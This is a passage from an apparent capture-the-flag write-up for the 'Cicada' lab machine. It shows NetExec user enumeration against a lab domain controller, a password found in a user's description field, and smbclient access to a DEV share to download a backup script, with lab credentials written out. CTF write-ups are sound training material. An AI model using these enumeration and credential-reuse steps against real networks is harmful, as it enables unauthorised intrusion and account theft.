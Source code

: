Successfully authenticated as `michael.wrightson`.

## Lateral Movement

### Further SMB Enumeration

Using michael.wrightson's credentials, enumerated additional user information:
```bash
❯ nxc smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.129.231.149  445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.231.149  445    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain
SMB         10.129.231.149  445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain
SMB         10.129.231.149  445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 0       Key Distribution Center Service Account
SMB         10.129.231.149  445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 2
SMB         10.129.231.149  445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 2
SMB         10.129.231.149  445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0
SMB         10.129.231.149  445    CICADA-DC        david.orelious                2024-03-14 12:17:29 0       Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB         10.129.231.149  445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 0
SMB         10.129.231.149  445    CICADA-DC        [*] Enumerated 8 local users: CICADA
```

Discovered david.orelious's password in the description field, `aRt$Lp#7t*VQ!3`.

### DEV Share Access

Used david.orelious's credentials to access the DEV share we saw before and downloaded the available `Backup_script.ps1`:
```shell
❯ smbclient //cicada.htb/DEV -U 'CICADA\david.orelious%aRt$Lp#7t*VQ!3'
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

		4168447 blocks of size 4096. 433459 blocks available
smb: \> getBackup_script.ps1
getBackup_script.ps1: command not found
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
```
